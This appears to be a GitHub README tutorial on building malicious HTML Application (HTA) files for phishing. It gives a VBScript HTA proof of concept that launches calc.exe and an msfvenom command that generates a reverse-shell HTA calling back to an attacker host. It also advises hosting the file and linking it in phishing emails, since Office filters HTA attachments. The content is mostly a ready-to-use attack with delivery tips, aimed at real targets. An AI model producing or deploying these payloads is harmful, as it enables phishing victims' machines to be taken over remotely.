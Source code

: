 # Malicious-HTA-File

An HTA is a proprietary Windows program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer (VBScript and JScript). An HTA is executed using mshta.exe, which is typically installed along with IE. In fact, mshta is dependant on IE, so if it has been uninstalled, HTAs will be unable to execute.We can create a malicious hta file and use it on phishing.


# Demonstration

## Creating a malicious hta file to execute a calc.exe

open Visual Studio Code on the attacker-windows VM and create a new file.
```markdown
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "calc"
    End Function

    Pwn
  </script>
</html>
```

save the file and browse to this file in explorer and double-click it to run.If calculater pops up it means code get executed.We can now replace the calc to payload to get shell of target machine.

### ALTERNATE
### Using msfvenom

```markdown
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f hta-psh -o shell.hta
```

NOTE: During phishing we will host our hta file and use link in a phishing mail http://x.x.x.x/demo.hta . If you send hta file directly as an attachment, by default, Office has filetype filtering in place that will prevent you from attaching certain files to emails (including HTAs, which is why we'd opt to sending a link instead). 

![OnPaste 20220610-183906](https://user-images.githubusercontent.com/106917304/173071374-fb6dc04c-82ae-44d8-b101-ab7de8c19070.png)


